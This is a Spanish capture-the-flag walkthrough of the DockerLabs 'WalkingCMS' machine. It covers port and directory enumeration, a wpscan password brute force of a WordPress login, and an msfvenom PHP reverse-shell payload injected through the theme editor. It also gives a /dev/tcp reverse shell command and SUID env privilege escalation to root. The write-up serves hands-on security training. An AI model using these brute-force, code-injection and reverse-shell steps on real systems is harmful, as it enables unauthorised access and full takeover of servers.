 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "WalkingCMS".
Una vez hecho y COMO SIEMPRE, descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh walkingcms.tar
```
Lo primero de todo, tras desplegarse la maquina, es hacer un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 172.18.0.2 -n -Pn -vvv
```
Una vez terminado, vemos que tiene un unico puerto abierto:
```
Discovered open port 80/tcp on 172.18.0.2
```
En este caso, empezaremos poniendo en el navegador esta IP y ver si en la pagina, existe alguna informacion "util".
Pero unicamente vemos una pagina de Apache2 normal.
Por lo tanto, vamos a probar a hacer un poco de FUZZING WEB a ver si hay suerte:
```
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
El resultado de pasar GOBUSTER es:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]                                                                      
Progress: 143724 / 830576 (17.30%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 144102 / 830576 (17.35%)
===============================================================
Finished
===============================================================
```
Vemos que hay un Wordpress instalado, asi que vamos a ver si hay algun panel de login. No obstante, yo prefiero volver a usar GOBUSTER sobre el directorio "/wordpress":
```
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,html
```
Obteniendo lo siguiente:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 301) [Size: 0] [--> http://172.17.0.2/wordpress/]                                                                        
/wp-content           (Status: 301) [Size: 323] [--> http://172.17.0.2/wordpress/wp-content/]                                                           
/wp-includes          (Status: 301) [Size: 324] [--> http://172.17.0.2/wordpress/wp-includes/]                                                          
/wp-login.php         (Status: 200) [Size: 6580]
/readme.html          (Status: 200) [Size: 7401]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321] [--> http://172.17.0.2/wordpress/wp-admin/]                                                             
/xmlrpc.php           (Status: 405) [Size: 42]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/wp-signup.php        (Status: 302) [Size: 0] [--> http://172.17.0.2/wordpress/wp-login.php?action=register]                                            
Progress: 830572 / 830576 (100.00%)
===============================================================
Finished
===============================================================
```
Tal y como se puede ver (aunque nos lo imaginaramos antes de usar GOBUSTER esta segunda vez), hay un "wp-login.php", por lo que iremos al navegador y entraremos en la direccion: "172.17.0.2/wordpress/wp-login.php". Aqui veremos un bonito panel de Login (logicamente) de Wordpress.
Es momento ahora de usar una herramienta especifica para intentar encontrar primero usuarios dentro de entornos CMS como este, que se llama WPSCAN. En la terminal podremos:
```
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp
```
Y vemos que nos encuentra un usuario llamado "mario":
```
[i] User(s) Identified:

[+] mario  <==== Usuario detectado "mario"
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```
Perfecto. Ya tenemos el usuario, pero... ¿y la contraseña? Bien, para encontrarla, aunque hay otras herramientas, usaremos de nuevo WPSCAN ya que esta mas indicada para CMS's:
```
wpscan --url http://172.17.0.2/wordpress/ --passwords /usr/share/wordlists/rockyou.txt --usernames mario
```
Y nos encuentra la contraseña "love", como se puede ver a continuacion:
```
[!] Valid Combinations Found:
 | Username: mario, Password: love
```
**NOTA: Antes de continuar, hay que decir que al usar WPSCAN, se pone la ruta donde se encuentra el panel de Login PERO sin el "wp-login.php" (OJO CON ESTO !! ES MUY IMPORTANTE)**

Una vez encontrada la contraseña y aclarado lo anterior, pasamos a introducir las credenciales en el panel de login, lo que nos da acceso al panel de control de Wordpress del usuario "mario".
Bien, ahora nos interesaria inyectar codigo malicioso en ".php" pero no se observa ningun apartado donde poder subir algun archivo, por lo que otra alternativa es intentar inyectar el codigo malicioso directamente.
Lo primero que haremos sera abrir una terminal y  crear directamente el codigo malicioso con "msfvenom". Vamos a intentar obtener una reverse, por lo que usaremos:
```
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > reverseWalkingCMS.php
```
ya con el codigo malicioso creado, lo que haremos sera copiar al portapapeles TODO el contenido del archivo "reverseWalkingCMS.php".
Ahora nos dirigiremos de nuevo al navegador, y concretamente, al panel de control del usuario "mario", donde estabamos antes.
En este panel de control seleccionaremos en el menu de la izquierda la opcion "Apariencia", y dentro de ella, elegiremos donde pone "Theme Code Editor".
Perfecto, ahora es momento de inyectar nuestro codigo. Para ello, en la parte de la derecha, veremos un archivo que se llama "functions.php", por ejemplo.
Lo que haremos es simplemente abrir ese archivo y borrar todo su contenido, sustituyendolo por nuestro codigo malicioso.
Antes de continuar y grabar el archivo, abriremos DOS ventanas de la terminal:

   1) Una la pondremos a la escucha por el puerto 443 (el del codigo malicioso).
   2) La segunda, la pondremos a la escucha por el puerto 444, por ejemplo.

¿Y por que hacemos esto? Lo explico:
Cuando se hace un "payload" o codigo malicioso con "msfvenom" en PHP, normalmente al de unos segundos/minutos nos expulsa de la maquina, por lo que es conveniente siempre estabilizar esa conexion que obtenemos con el "payload".
La forma mas sencilla de estabilizarla es abrir una segunda terminal (como acabamos de hacer) e ir a la pagina "revshells.com".
En esta pagina, meteremos nuestra IP y el puerto que hemos elegido en la segunda terminal, es decir, el puerto al que queramos "redirigir" la conexion obtenida con el "payload".
Una vez hecho, en la parte de abajo, por defecto, nos proporcionara una reverse. En este caso en concreto:
```
sh -i >& /dev/tcp/172.17.0.1/444 0>&1
```
Esta reverse, sera la que meteremos luego en la primera terminal para estabilizar la conexion.
Bien, aclarado todo esto, volvemos al navegador y a nuestro panel de control de Wordpress.
Si recordadmos habiamos sustituido ya el codigo original de "functions.php" por nuestro "payload". Ahora ya solo tenemos que pinchar sobre el boton azul que pone "Update File" y esperar a que nos confirme Wordpress que se ha guardado correctamente.
En mi caso, simplemente con hacer esto ya me ha cogido directamente la conexion por el puerto 443, pero si vemos que no lo hace, iremos al navegador, pondremos la direccion "172.17.0.1/wordpress/" (por ejemplo) y ya deberia hacerlo.
Bien, ¿y ahora que? Pues como hemos dicho, hay que estabilizar la conexion antes de que nos "eche", por lo que introduciremos en ese primer terminal (el del puerto 443) el siguiente comando:
```
bash -c "sh -i >& /dev/tcp/172.17.0.1/444 0>&1"
```
Lo que nos mandara la "reverse" a nuestra segunda terminal (la del puerto 444) y asi tendremos la conexion estabilizada. Ahora ya podriamos cerrar la primera terminal ya que no la necesitamos mas.
Bien, volviendo a la segunda terminal y escribiendo "whoami" vemos lo siguiente:
```
$ whoami
www-data
$ 
```
Nos quedarian ya solo dos cositas por hacer: el tratamiento de la TTY y la escalada de privilegios.
Empezaremos por el tratamiento de la TTY. Para ello haremos lo siguiente:
```
1) Escribimos:
	script /dev/null -c bash
2) Ahora pulsamos (CTRL + Z) y nos devuele a la terminal de la maquina atacante
3) Escribimos:
	stty raw -echo; fg
4) Una vez escrito lo anterior y vuelto a la maquina victima, escribimos:
	reset xterm
5) Finalmente, escribimos estos dos comandos:                    
    export TERM=xterm
    export SHELL=bash
6) Nos quedaria la terminal de la siguiente forma:
	www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Vale, finalizado el tratamiento de la TTY, pasaremos a la escalada de privilegios probando primero con el comando "sudo -l":
```
bash: sudo: command not found
```
Como se ve, no se puede continuar por ahi. Es momento ahora de probar otro tipo de escalada de privilegios con el comando: "find / -perm -4000 2>/dev/null":
```
find / -perm -4000 2>/dev/null

/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/env
/usr/bin/newgrp
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$
```
Una vez obtenida la lista de binarios con permisos "SUID", iremos a la pagina de "gtfobins" y buscaremos cada uno de ellos para ver si podemos utilizarlos.
En este caso, el que funcionaria seria "/usr/bin/env", por lo que en "gtfobins" veremos que "env">SUID, nos presenta el siguiente codigo para hacer una reverse:
```
./env /bin/sh -p
```
No obstante, en nuestro caso pondremos la ruta COMPLETA:
```
www-data@92f4b9a90f9f:/var/www/html/wordpress/wp-admin$ /usr/bin/env /bin/sh -p
# whoami
root
# 
```
Finalmente vemos que hemos tenido acceso "root" en la maquina.
Como opcional, podriamos escribir el comando "bash -p" para obtener un prompt algo mas "normal", tal y como se ve abajo.
```
# bash -p
bash-5.2# whoami
root
bash-5.2#
```
